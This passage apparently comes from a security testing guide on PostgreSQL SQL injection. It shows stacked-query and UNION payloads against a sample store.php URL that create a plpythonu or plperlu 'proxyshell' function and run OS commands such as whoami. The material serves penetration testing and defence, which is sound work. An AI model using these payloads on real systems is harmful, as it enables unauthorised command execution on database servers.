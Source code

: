 
**Example:**

* Create a proxy shell function:
```
/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS ‘import os;
return os.popen(args[0]).read()’ LANGUAGE plpythonu;--
```

* Run an OS Command:
```
/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--
```


###### plperl

Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as *open*. By doing so, it's impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the *postgres* user, to avoid the so-called application mask filtering of trusted/untrusted operations.


* Check if PL/perl-untrusted has been enabled:
    - *SELECT count(*) FROM pg_language WHERE lanname='plperlu'
* If not, assuming that sysadm has already installed the plperl package, try :
    - *CREATE LANGUAGE plperlu*
* If either of the above succeeded, create a proxy shell function:
    - *CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu*
* Have fun with:
    - SELECT proxyshell(*os command*);


**Example:**

* Create a proxy shell function:
    - `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu;`

* Run an OS Command:
    - `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`


### References

* OWASP : "[Testing for SQL Injection](https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OWASP-DV-005))"

* OWASP : [SQL Injection Prevention Cheat Sheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet)

* PostgreSQL : "Official Documentation" - http://www.postgresql.org/docs/

* Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection tool - http://sqlmap.sourceforge.net
